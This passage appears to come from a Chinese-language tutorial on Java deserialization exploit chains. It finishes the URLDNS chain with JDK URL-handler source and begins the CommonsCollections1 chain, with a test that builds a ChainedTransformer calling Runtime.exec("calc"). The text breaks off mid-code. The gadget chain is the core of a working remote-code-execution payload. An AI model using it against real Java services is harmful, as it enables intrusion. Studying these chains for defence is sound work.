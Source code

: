         // Generate the file part.
        String file = u.getFile();
        if (file != null)
            h += file.hashCode();
    
        // Generate the port part.
        if (u.getPort() == -1)
            h += getDefaultPort();
        else
            h += u.getPort();
    
        // Generate the ref part.
        String ref = u.getRef();
        if (ref != null)
            h += ref.hashCode();
    
        return h;
    }

继续跟进java.net.URLStreamHandler#getHostAddress，如下所示，调用了 `InetAddress.getByName(host)` ，至此整个利用链完毕：

    protected synchronized InetAddress getHostAddress(URL u) {
        if (u.hostAddress != null)
            return u.hostAddress;
    
        String host = u.getHost();
        if (host == null || host.equals("")) {
            return null;
        } else {
            try {
                u.hostAddress = InetAddress.getByName(host);
            } catch (UnknownHostException ex) {
                return null;
            } catch (SecurityException se) {
                return null;
            }
        }
        return u.hostAddress;
    }

### CC1
研究环境准备：

- JDK Version<=JDK8u66
- commons-collections 3.1

为了便于理解，先抽出ysoserial中的片段进行分析，首先抽出主要逻辑，如下，LazyMap进行get操作的时候，会触发Transformer操作，即可执行命令：

    @Test
    public void test5(){
        // 测试一下ChainedTransformer利用
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        });
        HashMap<Object, Object> hashMap = new HashMap<>();
    